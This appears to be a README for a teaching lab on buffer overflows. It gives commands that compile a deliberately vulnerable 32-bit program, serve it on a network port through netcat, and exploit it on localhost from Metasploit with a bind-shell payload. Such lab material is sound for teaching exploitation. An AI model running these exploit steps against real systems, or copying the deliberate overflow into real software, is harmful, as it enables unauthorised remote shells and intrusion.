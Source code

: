 # ijit
Simple buffer overflow demo, in the style of a Just-In-Time compiled (JIT) program.

Install metasploit and then check out this code.  
Softlink ijit.rb into metasploit's modules.
(Don't check out directly into modules/exploits, that will make 
msfconsole hang at startup when it sees the executable git hooks!)

```
cd
git clone https://github.com/olawlor/security
mkdir -p ~/.msf4/modules/exploits/linux
cd ~/.msf4/modules/exploits/linux
ln -s ~/security/ijit/ijit.rb .
```

Now compile and run the vulnerable program (compiled here as a 32-bit x86 program):

```
sudo apt-get install build-essential gcc gcc-multilib
cd ~/security/ijit
gcc -m32 ijit.c -g -o ./ijit32 
nc -l -p 8888 | ./ijit32
```

Leave the vulnerable program running.

In another terminal, exploit it with msfconsole:

```
msfconsole
use exploit/linux/ijit
reload
set RHOST 127.0.0.1
set nop x86/single_byte
set payload linux/x86/shell/bind_tcp
exploit
```

If you compile a 64-bit version of that executable, the same exploit
will work with 
```
set nop x64/simple
set payload linux/x64/shell/bind_tcp
```


